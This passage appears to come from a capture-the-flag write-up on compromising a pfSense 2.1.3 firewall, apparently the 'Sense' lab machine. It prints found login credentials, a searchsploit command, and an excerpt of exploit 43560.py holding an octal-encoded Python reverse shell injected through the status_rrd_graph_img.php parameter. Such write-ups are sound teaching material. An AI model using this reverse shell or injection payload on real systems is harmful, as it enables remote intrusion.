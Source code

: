 
Two files caught my attention: `changelog.txt` & `system-users.txt`

![sen-4](https://user-images.githubusercontent.com/87711310/213643936-f3bb07da-a81a-4056-af4c-9f8b7423134e.png)

The `changelog.txt` file confirmed that they're definitely using a vulnerable version of pfSense.

The `system-users.txt` file gave us credentails to the login form (rohit:pfsense)

![sen-5](https://user-images.githubusercontent.com/87711310/213643940-59d687c5-397b-4a16-ab08-58a9a38bae22.png)

Visiting the dashboard, I saw the version of the pfSense is 2.1.3.

![sen-6](https://user-images.githubusercontent.com/87711310/213644295-e07b9197-06c3-4054-b99a-eb190496a1f8.png)

And going back to the searchsploit results, one exploit stood out.

![sen-7](https://user-images.githubusercontent.com/87711310/213644609-8dbfb371-675c-4552-81b6-33c60f02971e.png)

## Exploitation
Transferred the exploit to my directory.

```
searchsploit -m 43560.py
```

Looking at the exploit to understand what it does.
```python
.....# command to be converted into octal
command = """
python -c 'import socket,subprocess,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("%s",%s));
os.dup2(s.fileno(),0);
os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);
p=subprocess.call(["/bin/sh","-i"]);'
""" % (lhost, lport)payload = ""

# encode payload in octal
for char in command:
	payload += ("\\" + oct(ord(char)).lstrip("0o"))

login_url = 'https://' + rhost + '/index.php'
exploit_url = "https://" + rhost + "/status_rrd_graph_img.php?database=queues;"+"printf+" + "'" + payload + "'|sh"
......
```

It seems that the `status_rrd_graph_img.php` script is vulnerable to a `command injection`. To exploit that, the script is passing a simple python reverse shell as a command.

It does `octal encode` the reverse shell command which leads me to believe that there is either some form of filtering being done at the backend or the application crashes on certain characters. To sum up, it’s a very simple script that sends a reverse shell back to our attack machine.
